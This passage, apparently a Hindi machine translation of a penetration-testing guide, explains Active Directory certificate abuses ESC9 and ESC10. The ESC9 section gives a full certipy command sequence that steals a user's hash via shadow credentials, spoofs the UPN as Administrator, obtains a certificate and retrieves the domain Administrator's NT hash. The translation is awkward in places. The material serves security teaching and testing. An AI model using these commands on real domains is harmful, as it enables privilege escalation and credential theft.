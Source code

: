 इस ध्वज की सेटिंग महत्वपूर्ण होने की स्थितियाँ शामिल हैं:

* `StrongCertificateBindingEnforcement` को `2` पर समायोजित नहीं किया गया है (जिसका डिफ़ॉल्ट `1` है), या `CertificateMappingMethods` में `UPN` ध्वज शामिल है।
* प्रमाणपत्र को `msPKI-Enrollment-Flag` सेटिंग के भीतर `CT_FLAG_NO_SECURITY_EXTENSION` ध्वज से चिह्नित किया गया है।
* कोई भी क्लाइंट प्रमाणीकरण EKU प्रमाणपत्र द्वारा निर्दिष्ट किया गया है।
* किसी भी खाते पर `GenericWrite` अनुमतियाँ उपलब्ध हैं जिसका उपयोग करके किसी अन्य को कमजोर करने के लिए।

### दुरुपयोग स्थिति

मान लें कि `John@corp.local` के पास `Jane@corp.local` पर `GenericWrite` अनुमतियाँ हैं, जिनका लक्ष्य `Administrator@corp.local` को कमजोर करना है। `ESC9` प्रमाणपत्र टेम्पलेट, जिसे `Jane@corp.local` को नामांकित होने की अनुमति है, इसकी `msPKI-Enrollment-Flag` सेटिंग में `CT_FLAG_NO_SECURITY_EXTENSION` ध्वज के साथ कॉन्फ़िगर किया गया है।

शुरू में, `Jane` का हैश शैडो क्रेडेंशियल का उपयोग करके `John` के द्वारा प्राप्त किया जाता है:
```bash
certipy shadow auto -username John@corp.local -password Passw0rd! -account Jane
```
इसके बाद, `Jane` का `userPrincipalName` `Administrator` में संशोधित किया जाता है, `@corp.local` डोमेन हिस्सा जानबूझकर छोड़ दिया जाता है:
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator
```
यह संशोधन बाधाएँ उल्लंघित नहीं करता है, क्योंकि `Administrator@corp.local` को `Administrator` का `userPrincipalName` अलग रूप से बना रहता है।

इसके बाद, `ESC9` प्रमाणपत्र टेम्पलेट, जिसे वंशावशेषित माना गया है, `Jane` के रूप में अनुरोध किया जाता है:
```bash
certipy req -username jane@corp.local -hashes <hash> -ca corp-DC-CA -template ESC9
```
यह नोट किया गया है कि प्रमाणपत्र का `userPrincipalName` `Administrator` को प्रकट करता है, किसी भी "ऑब्जेक्ट SID" के बिना।

`Jane` का `userPrincipalName` फिर से उसके मूल, `Jane@corp.local` पर लौटाया जाता है:
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local
```
प्रकारित प्रमाणपत्र के साथ प्रमाणीकरण का प्रयास अब `Administrator@corp.local` का NT हैश देता है। प्रमाणपत्र के डोमेन विशिष्टीकरण की कमी के कारण आज्ञा में `-domain <domain>` शामिल होना चाहिए:
```bash
certipy auth -pfx adminitrator.pfx -domain corp.local
```
## दुर्बल प्रमाणपत्र मैपिंग - ESC10

### व्याख्या

डोमेन कंट्रोलर पर दो रजिस्ट्री कुंजी मान ESC10 द्वारा संदर्भित हैं:

* `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel` के तहत `CertificateMappingMethods` के लिए डिफ़ॉल्ट मान `0x18` (`0x8 | 0x10`) है, पहले `0x1F` पर सेट किया गया था।
* `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc` के तहत `StrongCertificateBindingEnforcement` के लिए डिफ़ॉल्ट सेटिंग `1` है, पहले `0` था।
